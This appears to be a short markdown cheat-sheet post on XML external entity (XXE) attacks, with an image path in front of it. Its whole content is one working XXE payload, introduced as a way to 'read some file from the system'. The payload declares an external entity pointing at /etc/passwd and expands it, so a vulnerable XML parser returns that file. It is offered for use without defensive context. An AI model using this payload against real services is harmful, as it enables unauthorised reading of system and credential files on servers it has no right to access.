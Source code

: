 ```yaml
---
layout: post
title: "xxe"
keywords: "xxe, xml external entity"
---
```

#### SYSTEM
Use XXE to read some file from the system

```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```